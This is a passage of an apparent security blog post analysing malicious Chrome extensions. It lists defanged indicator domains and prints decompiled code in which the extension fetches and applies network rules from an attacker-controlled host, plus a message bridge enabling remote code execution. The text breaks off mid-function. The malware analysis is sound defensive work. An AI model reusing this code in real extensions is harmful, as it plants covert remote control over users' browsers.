 Additional IOCs:

* adblock[.]mx
* adultblocker[.]org
* autohd[.]org
* autoresolutionquality[.]com
* browserguard[.]net
* freemybrowser[.]com
* freepdfconversion[.]com
* internetdownloadmanager[.]top
* megaxt[.]com
* darkmode[.]site

## “Remote configuration” functionality

The Download Manager Integration Checklist extension was an odd one on the list in [my previous article](/2025/01/20/malicious-extensions-circumvent-googles-remote-code-ban/). It has very minimal functionality: it’s merely supposed to display a set of instructions. This is a task that doesn’t require any permissions at all, yet the extension requests access to all websites and `declarativeNetRequest` permission. Apparently, nobody noticed this inconsistency so far.

Looking at the extension code, there is another oddity. The checklist displayed by the extension is downloaded from Firebase, Google’s online database. Yet there is also a download from `https://help.internetdownloadmanager.top/checklist`, with the response being handled by this function:

```js
async function u(l) {
  await chrome.storage.local.set({ checklist: l });

  await chrome.declarativeNetRequest.updateDynamicRules({
    addRules: l.list.add,
    removeRuleIds: l.list.rm,
  });
}
```

This is what I flagged as malicious functionality initially: part of the response is used to add `declarativeNetRequest` rules dynamically. At first I missed something however: the rest of the data being stored as `checklist` is also part of the malicious functionality, allowing execution of remote code:

```js
function f() {
  let doc = document.documentElement;
  function updateHelpInfo(info, k) {
    doc.setAttribute(k, info);
    doc.dispatchEvent(new CustomEvent(k.substring(2)));
    doc.removeAttribute(k);
  }

  document.addEventListener(
    "description",
    async ({ detail }) => {
      const response = await chrome.runtime.sendMessage(
        detail.msg,
      );
      document.dispatchEvent(
        new CustomEvent(detail.responseEvent, {
          detail: response,
        }),
      );
    },
  );

  chrome.storage.local.get("checklist").then(
    ({ checklist }) => {
```